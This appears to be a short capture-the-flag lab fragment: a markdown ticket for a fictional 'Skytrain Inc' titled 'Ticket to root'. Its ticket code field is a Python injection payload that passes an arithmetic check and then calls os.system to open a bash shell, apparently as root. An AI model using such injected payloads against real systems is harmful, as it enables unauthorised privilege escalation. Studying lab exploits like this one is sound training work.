 # Skytrain Inc 
## Ticket to root 
__Ticket Code:__ 
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
